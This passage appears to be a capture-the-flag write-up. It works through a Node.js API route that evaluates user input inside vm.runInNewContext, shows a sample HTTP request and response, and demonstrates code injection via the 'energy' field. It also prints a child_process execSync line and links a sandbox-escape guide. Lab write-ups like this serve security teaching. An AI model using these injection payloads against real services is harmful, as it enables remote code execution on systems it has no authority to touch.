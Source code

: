 ```
		vm.runInNewContext(calc_chi,kungfu_realm);

		return res.send({chi: kungfu_realm[get_chi]});
	}else{
		return res.send(('Missing parameters'));
	}
});

module.exports = router;
```

This code looks to be taking our energy value, multiplying it by a random number and giving it back to us. It is doing all of this in a nodeJS VM. We can see this if we sent a request:

`POST "/api/get_chi" with {"energy": 40}`

```
POST /api/get_chi HTTP/1.1
Host: wisdom.threatsims.com:8076
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wisdom.threatsims.com:8076/
Content-Type: application/json
Origin: http://wisdom.threatsims.com:8076
Content-Length: 18
Connection: close

{"energy": "40"}
```

This returns the value:

`{"chi":1920}`

Looking at the code closer, it looks like we can manipulate things a bit. Instead of a random value, we can directly assign our chi value:

`{"energy": "1; hero_chi = 9001"}`

Which returns

`{"chi":9001}`

This shows us that we have some remote code execution on the server. Now that we have this foothold we can start looking at out to execute that binary.

We could simply do this:

`require('child_process').execSync('/opt/get_scroll.bin');`

However since we are inside the context of the VM we are stuck using the functions inside of the given context which isn't much. Or are we? Looking more into "NodeJs VM Vulnerabilities" we can find a [really good guide](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/) on breaking out of the sandbox. 
